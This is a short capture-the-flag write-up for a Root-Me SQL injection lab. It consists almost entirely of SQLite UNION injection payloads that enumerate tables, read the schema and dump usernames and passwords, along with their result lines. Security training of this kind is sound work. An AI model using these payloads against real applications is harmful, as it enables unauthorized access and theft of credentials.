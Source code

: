# SQL injection: string

[root-me challenge: SQL-injection-String](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-String): Retrieve the administrator password.

----

```text
' UNION SELECT 1,2,3 --
```

```text
SQLite3::query()
```

Using [PayloadAllTheThings: SQLiteInjection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md):

```text
7 result(s) for "' UNION SELECT NULL,tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' --"

 (news)
 (users)
```

```text
6 result(s) for "' UNION SELECT NULL,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users' --"

 (CREATE TABLE users(username TEXT, password TEXT, Year INTEGER))
```

And:

```text
8 result(s) for "' UNION SELECT username,password FROM users --"
```

